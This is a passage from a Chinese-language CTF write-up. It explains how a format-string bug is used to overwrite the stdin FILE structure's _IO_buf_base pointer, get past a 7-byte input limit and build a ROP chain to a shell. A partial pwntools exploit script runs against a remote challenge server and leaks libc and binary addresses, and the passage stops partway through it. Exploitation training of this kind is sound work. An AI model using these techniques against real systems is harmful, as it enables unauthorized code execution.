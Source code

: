 只截取了用得着的声明部分。_IO_buf_base和_IO_buf_end在最下面。从上面可以看出_IO_buf_base在stdin结构体的第8个，因此它的地址是stdin结构体的地址+0x8*7（它是第7个，每个指针长8个字节）。决定了，就改_IO_buf_base，那就可以使用SetName将返回地址指向它了。虽然SetName只能输入7个字节，但是64位地址末尾几乎都有0，所以少个0也没啥问题。

接下来格式化字符串改_IO_buf_base的最后1字节为0。举个实际的例子会更好理解。假设当前stdin地址为0x7F9EA22488E0，那么base地址就为0x7F9EA2248918。覆盖末尾为0就变成了0x7F9EA2248900，也就是0x7F9EA22488E0+0x8*4处。看上面的对照一下，这是哪？_IO_write_base。_IO_write_base在注释里看到是Start of put area，也就是当前接收输入的位置。_IO_buf_end没有改变，那么现在我们就可以从0x7F9EA2248900处开始往后写0x64个字节了，因为读取的长度上面提到过，_IO_buf_end - fp->_IO_buf_base。从这里开始0x64字节，完全可以覆盖关键两个指针，绕过7个字节的限制。

对于_IO_buf_base之前的数据(_IO_write_base、_IO_write_ptr、_IO_write_end)，我们最好原样的放回，不然不知道会出现什么问题，经过调试，发现它们的值都是0x83 + _IO_2_1_stdin_addr。payload要在length处发送，因为length处使用了scanf。改了scanf的关键代码当然要用scanf来接收，不然触发不了没意思啊。

现在还剩下最后一个判断。

```c
if (fp->_IO_read_ptr < fp->_IO_read_end)  
    return *(unsigned char *) fp->_IO_read_ptr; 
```

这里不绕过后面的根本没法执行，全部白干。我们需要fp->_IO_read_ptr至少等于fp->_IO_read_end。之前我们在覆盖结构体数据时，后面执行了这一步:  fp->_IO_read_end += count; 因此现在的_IO_read_end加上了payload的长度。而getchar()的作用是使fp->_IO_read_ptr加1。又因为在覆盖结构体后，scanf的后面有一个getchar，执行了一次，所以我们只需要执行len(payload)-1次getchar()，然后接下来向length发送我们的rop再推出即可获得shell。

```python
from pwn import *  
sh = remote('61.147.171.105',64236)   
#main在elf中的静态地址  
main_s_addr = 0xC6C  
#pop rdi  
#retn  
#在elf中的静态地址  
pop_s_rdi = 0xD93  
bin_sh=0x000000000018cd57 
_IO_2_1_stdin_ = 3950816
   
   
def echoback(content):  
   sh.sendlineafter('choice>>','2')  
   sh.sendlineafter('length:','7')  
   sh.send(content)  
   
def setName(name):  
   sh.sendlineafter('choice>>','1')  
   sh.sendafter('name:',name)  
   
   
   
echoback('%19$p')  
   
sh.recvuntil('0x')  
#泄露__libc_start_main的地址  
__libc_start_main = int(sh.recvuntil(b'-').split(b'-')[0],16) - 0xF0  
#得到libc加载的基地址  
libc_base = __libc_start_main - 132928
system_addr = libc_base + 283536
binsh_addr = libc_base + bin_sh
_IO_2_1_stdin_addr = libc_base + _IO_2_1_stdin_  
_IO_buf_base = _IO_2_1_stdin_addr + 0x8 * 7  
   
#泄露main的地址  
echoback('%13$p')  
sh.recvuntil('0x')  
main_addr = int(sh.recvuntil(b'-').split(b'-')[0],16) - 0x9C  
elf_base = main_addr - main_s_addr  
pop_rdi = elf_base + pop_s_rdi  
   
echoback('%12$p')  
```